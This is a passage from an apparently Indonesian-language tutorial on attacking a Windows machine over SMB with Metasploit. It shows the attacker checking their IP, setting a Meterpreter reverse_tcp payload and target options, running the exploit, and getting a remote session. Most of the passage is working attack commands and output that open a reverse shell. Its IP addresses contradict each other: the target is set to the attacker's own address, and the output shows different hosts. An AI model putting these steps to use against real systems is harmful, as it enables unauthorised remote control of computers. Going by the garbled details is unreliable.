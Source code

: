 

   View the full module info with the info, or info -d command.
   ```

4. Lihat IP Address Kita:

   ```
   ifconfig
   ```

   Hasil output-nya seperti ini:

   ```
   wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
           inet 192.168.1.42  netmask 255.255.255.0  broadcast 192.168.1.255
           inet6 fe80::5727:a89e:6188:d200  prefixlen 64  scopeid 0x20<link>
           ether 00:c0:ca:b2:b8:a5  txqueuelen 1000  (Ethernet)
           RX packets 3317755  bytes 4611397255 (4.2 GiB)
           RX errors 0  dropped 104  overruns 0  frame 0
           TX packets 1088943  bytes 190597327 (181.7 MiB)
           TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
   ```

   Itu artinya IP Address kita adalah `192.168.1.42`.

5. Atur Parameter:

   ```
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set RHOSTS 192.168.1.42
   Set LPORT 4444
   set VERIFY_ARCH true
   set VERIFY_TARGET true
   set EXITFUNC thread
   set target 1
   set verbose true
   ```

6. Jalankan Exploit:

   ```
   exploit
   ```

   Jika berhasil, kamu akan mendapatkan sesi Meterpreter:

   ```
   [*] Sending stage (203846 bytes) to 192.168.1.10
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700
